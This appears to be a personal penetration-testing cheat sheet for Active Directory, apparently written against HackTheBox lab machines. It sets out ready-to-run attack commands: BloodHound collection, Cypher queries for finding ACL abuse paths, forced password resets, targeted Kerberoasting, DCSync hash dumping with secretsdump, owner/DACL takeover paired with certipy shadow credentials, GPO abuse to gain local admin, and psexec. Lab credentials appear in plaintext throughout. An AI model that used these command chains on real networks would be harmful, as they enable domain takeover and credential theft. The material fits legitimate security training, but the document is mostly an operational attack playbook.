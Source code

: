 ## Collect Data
#### From target:
```
. .\SharpHound.ps1
```
```
Invoke-BloodHound -CollectionMethod All
```
If nothing created and no error, may need to specify output:
```
Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\Temp
```
- make sure to create `C:\Temp` if not exist (can use `mkdir` in powershell)
	- usually will give error if `C:\Temp` does not exist
Can also use `-Verbose` to t/s:
```
Invoke-BloodHound -CollectionMethod All -Verbose
```

#### run remotely if LDAP port is open:
```
bloodhound-python -c All -dc FOREST.htb.local -gc FOREST.htb.local -ns 10.129.175.196 -d htb.local -u svc-alfresco -p 's3rvice'
```
or
```
bloodhound-python -c ALL -u ldap -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -d support.htb -ns 10.10.11.174
```
or use nxc:
```
nxc ldap administrator.htb -u Olivia -p ichliebedich --bloodhound --collection All --dns-tcp --dns-server 10.10.11.42
```

---
#### CE
```
sudo docker-compose -f ~/Downloads/docker-compose.yml up -d
```
- go to http://localhost:8080/ui/login
- admin:(more complex version of kali pw)
To end the docker container:
```
sudo docker-compose -f ~/Downloads/docker-compose.yml down
```
- free up port 8080 for foxyproxy

---
#### Legacy
 - start neo4j
- `sudo neo4j console`
- neo4j:(kali pw)
- `bloodhound`
- run command from another terminal tab
- clear database
- upload Data


---
#### Queries
```
MATCH (m:Computer) RETURN m
```
- see computers
```
MATCH (m:User) RETURN m
```
- see users
- marked any users with creds as "owned"
	- check owned users for OUTBOUND OBJECT CONTROL > First Degree Object Control
		- Looking for GenericAll, GenericWrite, ForceChangePassword
ex: olivia has GenericAll over Michael & Michael has ForceChangePassword over Benjamin = probably worth checking out)

```
MATCH (n:User {admincount:False}) MATCH (m) WHERE NOT m.name = n.name MATCH p=allShortestPaths((n)-[r:MemberOf|HasSession|AdminTo|AllExtendedRights|AddMember|ForceChangePassword|GenericAll|GenericWrite|Owns|WriteDacl|WriteOwner|CanRDP|ExecuteDCOM|AllowedToDelegate|ReadLAPSPassword|Contains|GpLink|AddAllowedToAct|AllowedToAct|SQLAdmin*1..]->(m)) RETURN p
```
- show privs all non-admin users have against all other nodes

```
MATCH (n:User {admincount:False}) MATCH (m:User) WHERE NOT m.name = n.name MATCH p=allShortestPaths((n)-[r:AllExtendedRights|ForceChangePassword|GenericAll|GenericWrite|Owns|WriteDacl|WriteOwner*1..]->(m)) RETURN p
```
- show ACL abuse non-admin users has against other users

```
MATCH (n:User {admincount:False}) MATCH p=allShortestPaths((n)-[r:AllExtendedRights|GenericAll|GenericWrite|Owns|WriteDacl|WriteOwner|AdminTo|CanRDP|ExecuteDCOM|ForceChangePassword*1..]->(m:Computer)) RETURN p
```
- show ACL abuse non-admin users have against computers

```
MATCH (n:User {admincount:False}) MATCH p=allShortestPaths((n)-[r:AddMember*1..]->(m:Group)) RETURN p
```
- show non-admin users that have rights to add members into groups

```
MATCH (u:User) WHERE ANY (x IN u.serviceprincipalnames WHERE toUpper(x) CONTAINS 'SQL')RETURN u
```
- find SPNs with specific keywords (swap `SQL` for anything)

---
#### If user (Olivia) has GenericAll permissions over another user (Michael)
```
net user Michael Password123
```
- Change benjamin's password if currently owned user has GenericAll over benjamin
	- then login as that user and spray all open services with new creds
- can also use bloodyAD command below (if no shell)

---
#### If user (Michael) has ForceChangePassword over another user (Benjamin)
```
bloodyAD -u "Michael" -p "Password123" -d "Administrator.htb" --host "10.10.11.42" set password "Benjamin" "12345678"
```
- using succesfully authenticated creds of michael to reset Benjamin's password

OR with RPC
```
rpcclient -U 'rsmith' //10.10.146.118
```
- put in password, then:
```
setuserinfo2 ewalters 23 "d4nk!!!"
```

---
#### If user (Emily) has GenericWrite permissions over another user (Ethan)
- make sure IP is in `/etc/hosts` with all subdomains
```
sudo ntpdate administrator.htb
```
- syncs timezone for kerberos
- may need to run multiple times if below command fails:
```
targetedKerberoast -u "emily" -p "UXLCI5iETUsIBoFVTj8yQFKoHjXmb" -d "Administrator.htb" --dc-ip 10.10.11.42
```
- running this command with Emily will display the hash for Ethan
	- run john to crack the hash, then use pw below for secretsdump command

---
#### If user (Ethan) has DCsync over domain (dc.administrator.htb)
```
secretsdump.py "Administrator.htb/ethan:limpbizkit"@"dc.Administrator.htb"
```

---
#### If user (ryan) has writeOwner permissions over another user (ca_svc), run these commands in fast sequence:
```
bloodyAD --host '10.10.11.51' -d 'escapetwo.htb' -u 'ryan' -p 'WqSZAF6CysDQbGb3' set owner 'ca_svc' 'ryan'
```
```
dacledit.py  -action 'write' -rights 'FullControl' -principal 'ryan' -target 'ca_svc' 'sequel.htb'/"ryan":"WqSZAF6CysDQbGb3"
```
```
sudo ntpdate sequel.htb
```
```
certipy shadow auto -u 'ryan@sequel.htb' -p "WqSZAF6CysDQbGb3" -account 'ca_svc' -dc-ip '10.10.11.51'
```
- sets ryan as owner of ca_svc
- once owner, 2nd command gives ryan full control of ca_svc
- syncs time
- should return hash for ca_svc

---
#### If User has GenericWrite over GPO Policy:
![[Pasted image 20250404152856.png]]
- Graphed path from Owned user to Administrator shows GenericWrite over GPO policy, implies privesc
```powershell
./SharpGPOAbuse.exe --AddLocalAdmin --UserAccount enterprise-security --GPOName "SECURITY-POL-VN"
```
![[Pasted image 20250404153731.png]]
```
gpupdate /force
```
![[Pasted image 20250404153941.png]]
- once updates, adds our user to administrator group
```
psexec.py enterprise-security:sand_0873959498@10.10.30.183
```
![[Pasted image 20250404154050.png]]
